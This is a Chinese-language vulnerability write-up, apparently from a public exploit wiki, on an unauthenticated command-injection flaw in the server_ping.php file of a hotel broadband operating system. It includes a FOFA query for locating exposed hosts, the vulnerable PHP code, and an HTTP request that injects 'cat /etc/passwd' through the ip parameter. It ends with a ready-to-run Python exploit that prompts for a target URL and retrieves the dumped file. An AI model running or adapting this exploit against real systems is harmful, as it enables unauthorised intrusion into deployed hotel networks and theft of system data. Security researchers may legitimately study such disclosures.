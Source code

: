 # 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞

## 漏洞描述

安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行

## 漏洞影响

> [!NOTE]
>
> 安美数字 酒店宽带运营系统

## FOFA

> [!NOTE]
>
> "酒店宽带运营"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/am-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞的文件为 **server_ping.php**

```php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;

$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
	while (($line = fgets($fp, 512))) {
		$getString .= trim($line);
	}
	pclose($fp);
	
}

if (strstr($getString, "2 received, 0%")) {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'ok');\n";
	echo "</script></body></html>\n";
} else {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'no');\n";
	echo "</script></body></html>\n";
}
?>
```

漏洞位置为

```
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
```

GET传入 **$ip参数** 后直接命令执行，并且文件无权限要求

请求包为

```
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
```

![](http://wikioss.peiqi.tech/vuln/am-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd>../../test.txt \033[0m".format(target_url))
        if "parent" in response.text and response.status_code == 200:
            vuln_url = target_url + "/test.txt"
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
            }
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
            if "root:" in response.text:
                print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
            else:
                print("\033[31m[x] 请求失败:{} \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

#
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/am-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)